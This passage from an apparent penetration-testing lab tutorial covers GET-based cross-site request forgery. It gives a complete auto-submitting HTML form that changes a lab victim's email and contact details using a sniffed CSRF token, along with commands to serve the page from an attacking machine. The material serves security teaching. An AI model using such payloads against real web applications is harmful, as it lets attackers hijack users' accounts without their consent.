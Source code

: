 We can serve the page above from our attacking machine as follows:

```bash
python -m http.server 1337



Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

While still logged in, open a new tab and visit the page you are serving from your attacking machine http://<VPN/TUN Adapter IP>:1337/notmalicious.html. You will notice that logged in user's profile details will change to the ones we specified in the HTML page we are serving.


# CSRF (GET based)

Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

In some cases the CSRF token is in clear inside the URL. An attacker on the local network can sniff the abovementioned request.

First, create and serve the below HTML page. Save it as notmalicious_get.html:

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.

You can serve the page above from your attacking machine as follows:

```bash
python -m http.server 1337
```


# CSRF (POST based)
